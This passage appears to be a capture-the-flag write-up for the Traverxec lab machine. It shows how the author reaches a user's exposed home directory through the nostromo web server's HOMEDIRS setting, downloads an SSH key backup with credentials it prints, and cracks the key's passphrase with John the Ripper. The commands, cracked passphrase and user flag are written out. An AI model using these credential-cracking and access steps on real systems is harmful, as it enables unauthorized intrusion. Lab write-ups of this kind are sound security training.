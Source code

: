 From the config, I found `/home` set has `homedirs` set to `/home` path.

The documentation is here (https://www.nazgul.ch/dev/nostromo_man.html).

Basically `HOMEDIRS` is to serve the home directories of the user via HTTP. Based on the documentation, to access the user home directory, enter a `~` in the URL followed by the home directory name.

So I check http://10.10.10.165/~david/ and it shows a new URL.

`index.php` gives 404, but i tried `index.html` and works. So it is just hosting html file (http://10.10.10.165/~david/index.html).

Since `homedirs_public` is `public_www` I went to `/home/david/public_www` to see what files are hosted.

Found `backup-ssh-dentity-files.tgz` under `protected-file-area`, so I downloaded it to local using `david:Nowonly4me` credential via HTTP.

Inside found a `ssh` key for the user david. It is password protected, so I use `john the ripper` to crack the password.

```bash
ghost@localhost [15:14:45] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % ssh2john david_rsa > rsa_hash

ghost@localhost [15:15:02] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % john rsa_hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status

hunter           (david_rsa)

1 1g 0:00:00:00 DONE (2022-11-13 15:15) 11.11g/s 400.0p/s 400.0c/s 400.0C/s 11111..hunter
Waiting for 3 children to terminate
2 0g 0:00:00:02 DONE (2022-11-13 15:15) 0g/s 1792Kp/s 1792Kc/s 1792KC/s             .abygurl69
3 0g 0:00:00:02 DONE (2022-11-13 15:15) 0g/s 1792Kp/s 1792Kc/s 1792KC/sa6_123
4 0g 0:00:00:02 DONE (2022-11-13 15:15) 0g/s 1792Kp/s 1792Kc/s 1792KC/s xCvBnM,..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then I manage to login as the user `david`.

```bash
ghost@localhost [15:15:50] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % ssh david@10.10.10.165 -i david_rsa
Enter passphrase for key 'david_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ cat user.txt
4fc7ea3fd798eec95886b5757b02c3f4
```
